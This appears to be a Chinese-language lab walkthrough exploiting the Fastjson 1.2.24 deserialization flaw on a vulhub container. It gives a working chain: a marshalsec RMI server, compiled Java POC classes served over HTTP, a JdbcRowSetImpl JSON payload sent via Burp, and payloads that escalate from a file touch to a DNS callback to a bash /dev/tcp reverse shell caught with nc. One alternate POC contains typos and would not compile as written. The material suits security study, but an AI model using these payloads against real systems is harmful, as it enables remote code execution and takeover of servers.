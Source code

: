 # 1.2.24-rce

### 工具环境准备

下载marshalsec

{% embed url="https://github.com/mbechler/marshalsec" %}

下载好以后cd到marshalsec目录mvn编译它，会生成一个名为target的文件夹，开启rmi服务的工具在里面，如果没有mvn命令那用apt命令安装它

{% code lineNumbers="true" %}
```
apt install maven
mvn clean package -DskipTests
```
{% endcode %}

将这个POC保存到攻击机的目录，我这里将它命名为TouchFile.java

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译这个POC，并在当前目录用python开启一个http服务

{% code lineNumbers="true" %}
```
javac TouchFile.java
python3 -m http.server 8881
```
{% endcode %}

进入到marshalsec的target目录中在攻击机中开启rmi服务，指定加载类，并监听端口2345

```
┌──(root㉿kali)-[~/Desktop/test/jdk1.8.0_202/bin]
└─# ./java -cp ../../marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.1.110:8881/#TouchFile 2345
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 2345
```

将以下的payload放入到请求包单中发送请求，记得将请求包修改成POST请求

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.110:2345/TouchFile",
        "autoCommit":true
    }
}
```

Burp发送请求

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

可以看到RMI服务以及python请求都有相应，说明请求没有问题

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

POC中的命令是在靶机tmp目录创建一个success文件夹，我们进入到靶机的docker容器当中查看以下以确定没有任何问题

```
root@debian:~/vulhub/fastjson/1.2.24-rce# docker exec -it badb1f766db0 /bin/bash
root@badb1f766db0:/# ls
bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
root@badb1f766db0:/# cd /tmp/
root@badb1f766db0:/tmp# ls
hsperfdata_root  success  tomcat-docbase.9077591842716910581.8090  tomcat.5885354487546599121.8090
```

可以看见文件创建成功，下面再尝试一下dnslog的方式来验证漏洞，将上面的POC命令修改以下

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "www.k1mdihfsa4d4jv2kh73z8balmcs3g84x.oastify.com"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

将原来的class文件删除重新编译，我这里用的是Burp自带的Dnslog平台，别忘记将请求包改成POST，发送请求，OK 有了响应，（如果有问题就重新运行一下rmi服务和python的http服务）

查看Burp的Dnslog平台，有了回显

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

去生成一个反弹shell的payload

```
bash -i >& /dev/tcp/192.168.1.110/8886 0>&1
```

{% embed url="https://www.revshells.com/" %}

修改POC并重新编译

```
// TouchFile.java
// cmd run javac TouchFile.java 
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash", "-c","bash -i >& /dev/tcp/192.168.1.110/8886 0>&1"};

            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
// do nothing
        }
    }
}
```

也可以用下面这个POC，作用都是一样是的

```
/*
 * getshell.java
 * 将其编译后生成Exploit.class
 * 上传到HTTP服务器
 */
public class GetShell{
    public GetShell(){
        Runtime.getRuntime.exec("bash -i >& /dev/tcp/192.168.1.110/8886 0>&1");//监听主机的IP和端口号
    }
    public static void main(Sring[] args){
        GetShell e = new GetShell();
    }
}
//直接使用静态代码块亦可
```

nc监听8886端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8886
listening on [any] 8886 ...
```

Brup发送请求，

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

查看nc的监听，返回了一个shell

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
